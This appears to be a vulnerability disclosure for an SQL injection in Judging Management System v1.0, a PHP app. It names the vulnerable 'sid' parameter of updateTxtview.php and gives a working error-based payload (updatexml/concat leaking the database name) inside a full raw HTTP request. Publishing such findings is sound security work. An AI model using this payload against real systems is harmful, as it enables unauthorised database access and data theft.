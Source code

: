 # Judging Management System v1.0 by oretnom23 has SQL injection

BUG_Author: XZY0193

vendors: https://www.sourcecodester.com/php/15910/judging-management-system-using-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-jms/updateTxtview.php?sid=

Vulnerability location: /php-jms/updateTxtview.php?sid=, sid

dbname =jms_db

[+] Payload: /php-jms/updateTxtview.php?sid=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> sid

```sql
GET /php-jms/updateTxtview.php?sid=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=f6bhcgo222sk31fnm99nf9tjt1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/206377798-dbce2760-4b43-4a1d-bf34-893d82e1678f.png)
